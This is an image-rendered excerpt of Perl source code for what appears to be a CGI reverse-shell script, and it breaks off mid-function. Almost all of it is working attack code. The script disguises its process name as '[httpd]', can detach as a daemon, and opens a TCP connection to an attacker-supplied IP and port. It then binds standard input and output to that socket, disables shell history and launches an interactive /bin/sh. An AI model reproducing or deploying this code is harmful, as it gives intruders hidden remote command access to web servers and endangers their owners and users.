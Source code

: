 ```perl
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
    cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

    if ($auth) {
        unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
            cgiprint("ERROR: Your client isn't authorised to view this page");
            cgiexit();
        }
    }
} elsif ($auth) {
    cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
    cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
    my $pid = fork();
    if ($pid) {
        cgiexit(0); # parent exits
    }

    setsid();
    chdir('/');
    umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
    cgiprint("Sent reverse shell to $ip:$port");
    cgiprintpage();
} else {
    cgiprint("Couldn't open reverse shell to $ip:$port: $!");
    cgiexit();    
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"/bin/sh"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
    my $line = shift;
    $line .= "<p>\n";
    $global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
    cgiprintpage();
    exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
```